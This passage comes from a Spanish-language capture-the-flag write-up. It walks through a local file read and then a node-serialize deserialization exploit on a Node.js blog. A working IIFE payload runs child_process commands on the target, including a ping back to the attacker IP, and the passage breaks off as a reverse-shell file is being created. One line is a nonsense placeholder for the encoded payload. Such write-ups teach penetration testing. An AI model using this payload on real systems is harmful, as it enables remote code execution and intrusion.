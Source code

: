 En nuestra consola podemos meter este comando para convertir los puertos a decimal.
❯ **for port in $(cat /proc/net/tcp | awk ‘{print $2}’ | grep -v local | awk ‘{print $2}’ FS=”:” | sort -u); do echo “[+] Port $port → $(echo “obase=10; ibase=16; $port” | bc)”; done** 

Como sabiamos que es un servidor **node.js** debemos de buscar la manera de saber donde se encuentra y una manera es en Burpsuite mandar una peticion erronea para que nos de informacion de lo que trato de cargar. Por ende no muestra una ruta que en este caso es **/opt/blog/**.

Por lo que volvemos a modificar el archivo anterior y en la parte de SYSTEM colocamos lo siguiente:
**\file:///opt/blog/server.js** Esta seria la ruta por default de un servidor node.js, el cual al momento de cargar el archivo a la pagina web nos muestra informacion de Serialized. 

Nos damos cuenta que hay un **node-serialize** y ese seria la **serializacion**, esto lo hace la Cookie de la pestana de Almacenamiento.
El cual si buscamos en Google encontraremos la manera de hacer **Unserialized**.  

Por lo que procedemos a crear un campo serializado, la web nos deserializara el contenido y podremos entrar a la maquina por esa forma. Cabe mencionar que el campo con el que estaremos probando sera el de la Cookie que se encuentra en Almacenamiento. 

Buscamos en **Google (node.js deserialization attack)** y nos mostrara un articulo llamado **Exploiting Node.js** bug de la pagina **opsecx.com**. 
Para instalar el serialize en nuestra maquina metemos el siguiente comando (**npm install node-serialize**).

Entonces por medio del **Immediately Invoked Function Expresion IIFE**, al momento de serializar data si nosotros metemos unos parentesis, ejecuta ese comando antes de serializar la data.

Pero en nuestro caso debemos emitir una data serializada maliciosa donde se acontesca el IIFE para lograr inyectar un comando a nivel de sistema.

Quedaria asi nuestro unserialized:

❯ **vi unserialized.js**

	var serialize = require(‘node-serialize’);
	var payload = ‘{“rce” : “_$$ND_FUNC$$_function (){require(\’child_process\’).exec(\’ls /\’, function(error, stdout, stderr){console.log(stdout) }); }()”}’;
	serialize.unserialize(payload);

Vamos al Burpsuite y en la parte de Decoder es donde nosotros vamos a usar la linea siguiente para que nos la pueda Encodear en Url y asi meterla en la Cookie de Almacenamiento para que al momento de recargar la pagina web esta hara la deserializacion y por ende ejecutara un comando, el primer comando que vamos a probar es el de ver si nos podemos hacer un ping a nuestra maquina de atacante.

	var payload = {“rce”:“_$$ND_FUNC$$_function(){require(\’child_process\’).exec(\’ping -c 1 10.10.14.13’, function(error, stdout, stderr){console.log(stdout)});}()”} El que se modifica es el exec ya que ahi se ponen los comando que queremos que se realicen. 

44a44t24a4th8re86h2et8htr1ht3htr8jyj8j3j35jyt8yj9tjj15j30je5jet  Encodeado en formaro URL ejemplo
❯ **tcpdump -i tun0 icmp -n** Nos ponemos en escucha en la interfaz Tun0, despues pegamos el Url Enconde en la Cookie de Almacenamiento y cuando recarguemos veremos que si nos hace un ping, por lo que podemos aprovechar eso para poder hacer una revershell a nuestra maquina.

Creamos un archivo que se llame data el cual contendra el comando de la revershell.

❯ **nano data**    
